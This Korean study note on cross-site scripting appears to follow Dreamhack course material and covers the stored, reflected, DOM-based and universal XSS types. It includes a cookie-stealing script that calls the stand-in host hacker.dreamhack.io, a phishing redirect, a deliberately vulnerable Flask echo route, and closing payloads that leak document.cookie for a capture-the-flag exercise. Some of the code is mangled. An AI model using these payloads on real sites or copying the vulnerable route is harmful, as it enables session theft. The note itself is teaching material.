 # Cross Site Scripting(XSS)

## Cross Site Scripting(XSS)

- XSS는 클라이언트 취약점 중 하나로, 공격자가 웹 리소스에 악성 스크립트를 삽입해, 이용자의 웹 브라우저에서 해당 스크립트를 실행할 수 있다.
- 공격자는 해당 취약점을 통해 특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있다.
- Ex) 드림핵 웹 페이지에서 XSS 취약점이 존재하면 [https://dreamhack.io](https://dreamhack.io) 내에서 오리진 권한으로 악성 스크립트를 삽입한다. 이후에 이용자가 악성 스크립트가 포함된 페이지를 방문하면 공격자가 임의로 삽입한 스크립트가 실행되어 쿠키 및 세션이 탈취될 수 있다.
- 해당 취약점은 SOP 보안 정책이 등장하면서 서로 다른 오리진에서는 정보를 읽는 행위가 이전에 비해 힘들어졌다. 그러나 이를 우회하는 기술이 소개 되며 XSS 공격은 지속되고 있다.

## XSS 발생 예시와 종류

- XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생한다.
- Ex) “안녕하세요, 00 회원님”과 같은 문구 또는 게시물과 댓글
- 클라이언트는 HTTP 형식으로 웹 서버에 리소스를 요청하고 서버로 받은 응답, 즉 HTML, CSS, JS 등의 웹 리소스를 시각화하여 이용자에게 보여준다.
- 이 때 HTML, CSS, JS와 등 과 같은 코드가 포함된 게시물을 조회할 경우 이용자는 변조된 페이지를 보거나 스크립트가 실행될 수 있다.

### XSS 종류

1. Stored XSS : XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS
2. Reflected XSS : XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS
3. DOM-based XSS : XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS * Fragment는 서버 요청 / 응답에 포함되지 않음
4. Universal XSS : 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS

## XSS 스크립트의 예시

- **자바스크립트는** 웹 문서의 동작을 정의한다. 이는 이용자가 버튼 클릭 시에 어떤 이벤트를 발생시킬지와 데이터 입력 시 해당 데이터를 전송하는 이벤트를 구현할 수 있다.
- 이러한 기능 외에도 이용자와의 상호작용 없이 이용자의 권한으로 정보를 조회하거나 변경하는 등의 행위가 가능하다.
- 이게 가능한 이유는 이용자를 식별하기 위한 세션 및 쿠키가 웹 브라우저에 저장되어 있기 때문이다.
- 따라서 공격자는 자바스크립트를 통해 이용자에게 보여지는 웹 페이지를 조작하거나, 웹 브라우저의 위치를 임의의 주소로 변경할 수 있다.
- 자바스크립트는 다양한 동작을 정의할 수 있기에 XSS 공격에 주로 사용된다.
---
### figure 1

```python
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

### figure 2

```python
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

### figure 3

```python
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```
---
## Stored XSS

- **Stored XSS**는 서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 조회할 때 발생하는 XSS이다. 대표적으로 게시물과 댓글에 악성 스크립트를 포함해 업로드 하는 방식이 있다. 
- 게시물은 불특정 다수에게 보여지기 때문에 해당 기능에서 XSS 취약점이 존재할 경우 높은 파급력을 가진다.

## Reflected XSS

- **Reflected XSS**는 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생한다. 대표적으로 게시판 서비스에서 작성된 게시물을 조회하기 위한 검색창에서 스크립트를 포함해 검색하는 방식이 있다. 
- 이용자가 게시물을 검색하면 서버에서는 검색 결과를 이용자에게 반환한다. 일부 서비스에서는 검색 결과를 응답에 포합하는데, 검색 문자열에 악성 스크립트가 포함되어 있다면 Reflected XSS가 발생할 수 있다.
- Reflected XSS는 Stored XSS와는 다르게 URL과 같은 이용자의 요청에 의해 발생한다. 따라서 공격을 위해서는 다른 이용자를 악성 스크립트가 포함된 링크에 접속하도록 유도해야 한다. 
- 이용자에게 링크를 직접 전달하는 방법은 악성 스크립트 포함 여부를 이용자가 눈치챌 수 있기 때문에 주로 **Click Jacking** 또는 **Open Redirect** 등 다른 취약점과 연계하여 사용한다.
## - 요약
- **Cross Site Scripting(XSS)** : 클라이언트 취약점, 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행하는 취약점
- **Stored XSS**: 악성 스크립트가 서버 내에 존재, 이용자가 저장된 악성 스크립트를 조회할 때 발생
- **Reflected XSS** : 악성 스크립트가 이용자 요청 내에 존재, 이용자가 악성 스크립트가 포함된 요청을 보낸 후 응답을 출력할 때 존재.

## Exercise : XSS

### /vuln
```python
@app.route("/vuln")def vuln(): param = request.args.get("param", "") # 이용자가 입력한 vuln 인자를 가져옴 return param # 이용자의 입력값을 화면 상에 표시
```
### /memo
```python
||@app.route("/memo") # memo 페이지 라우팅|
||def memo(): # memo 함수 선언|
||global memo_text # 메모를 전역변수로 참조|
||text = request.args.get("memo", "") # 이용자가 전송한 memo 입력값을 가져옴|
||memo_text += text + "\n" # 이용자가 전송한 memo 입력값을 memo_text에 추가|
||return render_template("memo.html", memo=memo_text) # 사이트에 기록된 memo_text를 화면에 출력|
```
### /flag
```python
def read_url(url, cookie={"name": "name", "value": "value"}):
	cookie.update({"domain": "127.0.0.1"})
	 try:
		service = Service(executable_path="/chromedriver") 
		options = webdriver.ChromeOptions() 
		for _ in [
			"headless", 
			"window-size=1920x1080",
			"disable-gpu", 
			"no-sandbox", 
			"disable-dev-shm-usage", ]:
				options.add_argument(_)
		driver = webdriver.Chrome(service=service, options=options) 
		driver.implicitly_wait(3) 
		driver.set_page_load_timeout(3) 
		driver.get("http://127.0.0.1:8000/") 
		driver.add_cookie(cookie) 
		driver.get(url)
		except Exception as e: 
			driver.quit() 
			# return str(e) 
			return False
		driver.quit() 
		return True
def check_xss(param, cookie={"name": "name", "value": "value"}): 
	url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}" 
	return read_url(url, cookie)
@app.route("/flag", methods=["GET", "POST"])
def flag():
	if request.method == "GET": 
		return render_template("flag.html") 
	elif request.method == "POST": 
		param = request.form.get("param")
		 if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
			  return '<script>alert("wrong??");history.go(-1);</script>' 
		return '<script>alert("good");history.go(-1);</script>'
```

<script>var x=new URLSearchParams(location.search); document.getElementById('vuln').innerHTML = x.get('param');</script>
<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">